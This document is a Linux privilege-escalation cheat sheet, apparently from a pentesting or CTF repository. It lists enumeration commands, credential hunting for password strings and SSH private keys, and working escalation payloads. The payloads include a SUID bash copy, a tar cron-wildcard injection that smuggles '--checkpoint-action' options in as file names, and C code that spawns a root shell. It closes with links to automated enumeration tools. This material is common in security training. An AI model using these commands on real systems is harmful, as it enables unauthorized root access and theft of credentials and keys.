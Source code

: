 # Linux Privesc Cheat-Sheet

## System Enumeration

Kernel info - ``` uname -a ```

Proccesses,services - ```ps aux, ps aux | grep root```

Suid - ```find / -perm -u=s -type f 2>/dev/null, find / -type f -perm -04000 -ls 2>/dev/null find / -perm -4000 2>/dev/null```

trace - ```strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"```

Capabilities - ```getcap -r / 2>/dev/```

NFS - ```cat /etc/exports```

Architechture and cpu info - ```lscpu```

## User Enumeration

Info about user - ```whoami, id```

What can we run as sudo - ```sudo -l```

Users - ```cat /etc/passwd, cat /etc/passwd | cut -d : -f 1```

## Network Enumeration

IP info - ```ifconfig```

Routing info - ```ip route```

Connections - ```netstat```

## Password Hunting

Password phrases - ```grep --color=auto -rnw '/' -ie "Password=" --color=always 2> /dev/null```

Password files - ```locate password```

Finding ssh keys - ```find / -name id_rsa 2> /dev/null```

## Useful commands

```echo "cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p" > file```

### cron wildcards

```

echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh

touch /home/user/--checkpoint=1

touch /home/user/--checkpoint-action=exec=sh\ runme.sh

/tmp/bash -p

```

```echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c```


## Automated Tools

1.Linpeas | https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

2.LinEnum | https://github.com/rebootuser/LinEnum

3.Linux exploit suggester | https://github.com/mzet-/linux-exploit-suggester

4.Linux privchecker | https://github.com/sleventyeleven/linuxprivchecker
